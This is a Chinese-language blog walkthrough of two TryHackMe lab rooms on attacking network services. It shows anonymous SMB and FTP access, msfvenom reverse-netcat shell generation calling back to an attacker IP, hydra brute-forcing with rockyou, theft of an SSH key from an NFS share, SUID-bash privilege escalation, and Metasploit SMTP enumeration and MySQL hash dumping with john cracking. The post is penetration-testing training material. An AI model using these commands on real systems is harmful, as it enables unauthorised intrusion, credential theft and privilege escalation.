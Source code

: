 ```yaml
---
layout: post
title:  "TryHackme - Network Services Room Walkthrough"
date:   12 June 2025
categories: Demo
tags: Cybersecurity
---
```

<html>
<body>
<div markdown="block" style="margin-top: 10px">
    
### Intro
本篇紀錄自己在TryHackMe中的兩個Network Services Room的解題歷程(非常粗糙)，若有需要可到以下查看題目：
- [Network Services 1](https://tryhackme.com/room/networkservices)
- [Network Services 2](https://tryhackme.com/room/networkservices2)

  
### Room: Network Services 1
- 目標主機: `10.10.4.5`
- 攻擊主機: `10.4.9.189`  
  
#### -SMB
1. nmap先找出有沒有開smb
2. 用enum4linux找出有沒有感興趣的目錄
3. 用smbclient測試有沒有打開anonymous：`smbclient //10.10.4.5/secret -U Anonymous -p 445`
4. 如果可以進到FS，先看有支援哪些指令：`help` 然後再接下來的exploit

#### -Telnet
1. nmap先找出有沒有telnet（沒有明顯表示）

2. nc ip port連接/或telnet ip port

3. 用msfvenom創造reverse shell

   - 首先不確定哪些有的話，可以先用`msfvenom -l payloads | grep -E "reverse.\*netcat|netcat.\*reverse"`查找哪有有關的模組

     ```bash
     └─$ msfvenom -l payloads | grep -E "reverse.*netcat|netcat.*reverse"
         cmd/unix/reverse_netcat                                            Creates an interactive shell via netcat
         cmd/unix/reverse_netcat_gaping                                     Creates an interactive shell via netcat
     ```

   - 然後用 `mefvenom -p cmd/unix/reverse_netcat --list-options`來查找模組有哪些參數可以設置

     ```bash
     └─$ msfvenom -p cmd/unix/reverse_netcat --list-options              
     Options for payload/cmd/unix/reverse_netcat:
     =========================
     
     
            Name: Unix Command Shell, Reverse TCP (via netcat)
          Module: payload/cmd/unix/reverse_netcat
        Platform: Unix
            Arch: cmd
     Needs Admin: No
      Total size: 78
            Rank: Normal
     
     Provided by:
         m-1-k-3
         egypt <egypt@metasploit.com>
         juan vazquez <juan.vazquez@metasploit.com>
     
     Basic options:
     Name   Current Setting  Required  Description
     ----   ---------------  --------  -----------
     LHOST                   yes       The listen address (an interface may be specified)
     LPORT  4444             yes       The listen port
     
     Description:
         Creates an interactive shell via netcat
     
     
     
     Advanced options for payload/cmd/unix/reverse_netcat:
     =========================
     
         Name                        Current Setting  Required  Description
         ----                        ---------------  --------  -----------
         AutoRunScript                                no        A script to run automatically on session creation.
         AutoVerifySession           true             yes       Automatically verify and drop invalid sessions
         CommandShellCleanupCommand                   no        A command to run before the session is closed
         InitialAutoRunScript                         no        An initial script to run on session creation (before AutoRunScript)
         NetcatPath                  nc               yes       The path to the Netcat executable
         ReverseAllowProxy           false            yes       Allow reverse tcp even with Proxies specified. Connect back will NOT go t
                                                                hrough proxy but directly to LHOST
         ReverseListenerBindAddress                   no        The specific IP address to bind to on the local system
         ReverseListenerBindPort                      no        The port to bind to on the local system if different from LPORT
         ReverseListenerComm                          no        The specific communication channel to use for this listener
         ReverseListenerThreaded     false            yes       Handle every connection in a new thread (experimental)
         ShellPath                   /bin/sh          yes       The path to the shell to execute
         StagerRetryCount            10               no        The number of times the stager should retry if the first connect fails
         StagerRetryWait             5                no        Number of seconds to wait for the stager between reconnect attempts
         VERBOSE                     false            no        Enable detailed status messages
         WORKSPACE                                    no        Specify the workspace for this module
     
     Evasion options for payload/cmd/unix/reverse_netcat:
     =========================
     ```

   - 最後 `msfvenom -p cmd/unix/reverse_netcat lhost=10.4.9.189 lport=4444 R`，其中R代表輸出raw format的code
  
  
#### -FTP
- nmap找出port和服務
- 嘗試`ftp 10.10.4.5`並且username=anonymous, password=空
- `help`查看有那哪些指令
- 之後用`hydra`爆破密碼; `hydra -t 4 -l mike -P /usr/share/wordlists/rockyou.txt 10.10.4.5 ftp`
  - -t 4: threads
  - -l mike: LOGIN name
  - -P /path/to/wordlist
  - IP
  - protocol
  

### Room: Network Service 2
#### -NFS
- nmap找出port和服務
- `showmount -e 10.10.165.251 `找出有哪些visible share => 找到 `/home`
- 把這個visible share folder掛載到自己的directory上: `sudo mount -t nfs 10.10.165.251:home /tmp/mount/ -nolock`
- (幸運)找到.ssh/文件夾並找到id_rsa可以用當前用戶ssh到NFS Server
- 之後的想法就是在自己的主機上設置一個bash executable並且owner是root且有設置SUID；這樣的話在NFS server上就可以使用這個bash executable來提權:
  - 在自己的主機上複製一份/bin/bash並且將其權限和擁有者設置好: `cp /bin/bash . && sudo chown root bash && chmod +s bash`
  - 放到掛載的文件夾內
  - (幸運)ssh到NFS Server並執行`./bash -p` (-p是保留擁有者權限，這樣才會用root身分和SUID執行，如果不加可能會無效)  

#### -SMTP
- nmap掃描發現有開smtp & ssh

- 用metasploit的`smtp_version`和`smtp_enum`分別得出mail server type/version、username

  ```
  msfconsole														#進入metasploit交互模式/命令模式msfvenom
  help
  use auxiliary/scanner/smtp/smtp_enum	#使用模組
  options																#或show info
  set RHOSTS 10.10.77.44								#設置payloads
  exploit																#或run	
  ```

- 那麼通過第一步nmap的掃描得知目標伺服器還有開放ssh，那就拿smtp_enum得出的username結合hydra去做爆破

- ssh到目標伺服器  
  

#### -MYSQL
- nmap掃描發現有開ssh & mysql
- 並且從之前的動作中獲得一組credentials "root:password"
- 嘗試使用這組credentials連到伺服器，發現不行
- 那麼猜測這組credentials用於mysql登入
- 使用metasploit來弄mysql: `mysql_sql`, `mysql_schemadump`, `mysql_hashdump`
- 最後通過`mysql_hashdump`得到的hash用john the reaper破解: `john hash.txt`
- 然後想到前面有開ssh，而且找到的這個用戶可能會密碼重用(mysql和ssh帳密相同)，因此嘗試ssh登入
- 成功登入
  
  
### 總結
通過這一連串下來讓我認識並加深對整個exploit的過程，並且熟悉各個協議有可能的漏洞。  
  
還通過這個練習很多相關工具如:`nmap`, `enum4linux`, `smbclient`, `ftp`, `hydra`, `netcat`, `showmount`/`mount`, `metasploit`, `john` 等等，非常適合剛開始學習滲透測試的人練習。  
  
謝謝各位看到這邊，如有任何疑問或文章有任何錯漏，歡迎來信與我討論，謝謝！
  

## 學習資料
1. [TryHackMe - Network Services 1](https://tryhackme.com/room/networkservices)
2. [TryHackMe - Network Services 2](https://tryhackme.com/room/networkservices2)
3. [Metasploit Official Document](https://docs.metasploit.com/)

</div>
</body>
</html>
